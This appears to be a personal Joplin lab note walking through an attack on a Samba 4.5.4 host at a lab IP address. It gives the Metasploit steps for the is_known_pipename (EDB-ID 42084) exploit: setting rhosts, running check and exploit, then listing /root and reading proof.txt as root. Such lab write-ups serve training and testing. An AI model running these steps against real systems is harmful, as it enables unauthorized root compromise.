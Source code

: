 Attack Vector 5 - Windows 6.1 Samba 4.5.4-Ubuntu

Notice the result from os-smb-discovery

Google search for: Windows 6.1 Samba 4.5.4
![6c9b35fe1864ac50d8478322a8b65c56.png](:/0cc5510b594e4e6ca826a2b84036335f)

Choose the exploit-db link. **EDB-ID: 42084**
Notice that it requires metasploit
![7eba9bf837a2378a971a7bb8e2e54c6f.png](:/67a6cfa54b354170979b8813b89317ce)

Start postgresql
`sudo systemctl postgresql start`
![8f66e4a76a2291b7521eb2aa612e03ce.png](:/d1227f7cd61e490497705c82c836144a)

Start the msfconsole without ascii banner
`sudo msfconsole -q`
![999d70f5a952d6a36f76881945062ff0.png](:/1bdc1103ff9e467b90107b953233d8a8)

Search for 'is_known_pipename' and select it
`search is_known_pipename`
`use 0`
![5802c1285e97fd501b4cf2332bc25d91.png](:/a1413088c270482cbde51be698bceb8d)

Show options
`show options`
![ec2a2e3df44ce540e1ababa9db36dec4.png](:/b105380f7204498f99ee5733cfb665b1)

Change rhosts to the target IP
`set rhosts 10.11.1.146`
![5a756399c644783c794f69a0dbf59667.png](:/96cd9edef449486e9f1d7fefa9718ba4)

Verify that the change to rhosts was made
`show options`
![2ca1d4c199a107b8a5b55e77cd47ab15.png](:/e964807e8f4a47f7872ffc6318922657)

Check to see if the exploit will work
`check`
![0a38a7c3bafcb7628d9e6bc724e660ce.png](:/c571b68d46bd4b659f24a3dfa4ad470d)

Run the exploit command
`exploit`
![175b8bf179e86c11d004f951804c26f4.png](:/9edeb38de05b4cd5a6a4b7a6b9da73d2)

Check id
`whoami`
![a0df099e3d7f7680762d7d98b5ee9f5f.png](:/48d5496243e040fbb7ae5bec0e059c6b)

Check what directory we're in
`pwd`
![9ee77662099a4564ecf846d91a78046a.png](:/7de7cb31e6aa4a7fa400209952e176cc)

Check what files are in /root
`ls -la /root/*`
![9ec485c5e7b188d95c524e18133d4e6f.png](:/39aad9dd83d64626821ddc42b26741b5)

Read /root/proof.txt file
`cat /root/proof.txt`
![8894a4ba820ff9200096f3d9e2e82924.png](:/0e4165b0ade84e73ad291335dea58e54)






id: 26e2cf371c474e3ba9e41c9b77aa042a
parent_id: 905fd60ed3b1488db1f90a96122593e4
created_time: 2020-09-04T16:57:26.606Z
updated_time: 2020-09-04T19:13:07.988Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-09-04T16:57:26.606Z
user_updated_time: 2020-09-04T19:13:07.988Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1